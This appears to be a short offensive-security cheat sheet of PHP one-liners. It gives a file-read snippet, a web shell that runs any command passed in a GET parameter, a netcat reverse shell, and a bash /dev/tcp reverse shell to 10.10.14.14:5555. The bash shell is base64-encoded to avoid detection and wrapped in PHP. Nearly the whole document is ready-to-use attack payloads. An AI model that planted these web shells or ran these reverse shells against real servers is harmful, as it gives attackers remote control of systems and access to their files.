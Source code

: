## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

If theres ever a time we have a web-shell, and we want to leverage it to get a full reverse shell:

```
First, base64 encode:
echo '/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1' | base64

Final payload: (Dont forget to URL encode)
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash

If you need to payload to be executed with PHP:
<?php system("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash ?>
```
